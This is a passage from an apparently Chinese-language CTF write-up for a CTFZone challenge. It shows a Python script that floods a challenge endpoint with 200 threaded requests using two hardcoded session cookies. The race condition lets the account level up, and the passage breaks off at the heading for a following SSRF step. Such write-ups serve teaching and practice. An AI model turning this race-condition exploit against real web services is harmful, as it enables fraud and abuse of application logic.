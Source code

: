   ```
           print "R thread cikti => " + str(i)
   ```

   并发方案2：

   首先创建两个新的账号，并获取足够的balance。

   race_condition.py

   ```
   import threading
   import requests
   from Queue import Queue
   
   max = 100
   threads = Queue()
   
   def lvlup(cookie):
       threads.get()
       url = "http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/donate/lvlup"
       r = requests.get(url, cookies={"session": cookie})
   
   
   def worker2(index):
       lvlup("eyJ1aWQiOjg2MX0.DkX_wQ.Mvm0XsHQF4JnYmca6pt8z-vUkaE")       # chrome
   
   
   def worker(index):
       lvlup("eyJ1aWQiOjg2Mn0.DkX_zA.egXto8_Qdii7FNhj43zKekmtYP0")         # firefox
   
   
   def race():
       for i in range(max):
           thread = threading.Thread(target=worker, args=[i])
           thread.start()
       for i in range(max):
           thread = threading.Thread(target=worker2, args=[i])
           thread.start()
       for i in range(max * 2):
           threads.put(i)
       threads.join()
   
   
   race()
   ```

   结果：

   ![](/assets/ctfzone/TIM截图20180803232555.png)

6. SSRF

   通过条件竞争，到达31级别，出现了新的页面。
